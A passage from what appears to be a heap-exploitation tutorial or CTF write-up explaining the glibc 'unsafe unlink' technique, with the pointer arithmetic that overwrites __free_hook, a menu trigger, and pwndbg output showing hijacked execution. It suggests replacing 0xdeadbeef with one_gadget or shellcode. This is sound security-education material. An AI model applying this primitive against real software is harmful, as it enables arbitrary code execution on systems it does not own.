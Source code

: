 Perfect! The unsafe unlink operation successfully overwrote `__free_hook` with the value `0xdeadbeef`. This confirms that our exploitation technique worked as expected.

Recall what happened during the unlink:

```txt
FD = P->fd = __free_hook - 0x18
BK = P->bk = heap + 0x20

FD->bk = BK  → Write (heap + 0x20) to (__free_hook - 0x18) + 0x18 = __free_hook
BK->fd = FD  → Write (__free_hook - 0x18) to (heap + 0x20) + 0x10 = heap + 0x30
```

The first write operation successfully placed our target value (`heap + 0x20`, which contains `0xdeadbeef`) into `__free_hook`.


**Triggering the Exploit**

Now that `__free_hook` points to `0xdeadbeef`, any call to `free()` will jump to this address:

When we execute `free(chunk_A)`:

- The program calls `__free_hook` (which is now `0xdeadbeef`)
- Execution jumps to address `0xdeadbeef`
- Since `0xdeadbeef` isn't a valid executable address, the program crashes

```bash
#...
1) malloc 2/2
2) edit
3) free
4) quit
> $ 3
index: $ 0
$  
#...
```

Let's look at **pwndbg** window -

```bash
pwndbg> c
Continuing.
0x0000555555603020 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────────────────
*RAX  0x555555603020 ◂— 0xdeadbeef
 RBX  0
*RCX  0
#...
*RSP  0x7fffffffe098 —▸ 0x555555400c22 (main+792) ◂— mov rax, qword ptr [rbp - 8]
*RIP  0x555555603020 ◂— 0xdeadbeef
```

In place of `0xdeadbeef` we can use `one_gadget` or *shellcode*.


### Conclusion

The **Unsafe Unlink** technique demonstrates a critical heap exploitation primitive that transforms a simple heap overflow into arbitrary write capability. 

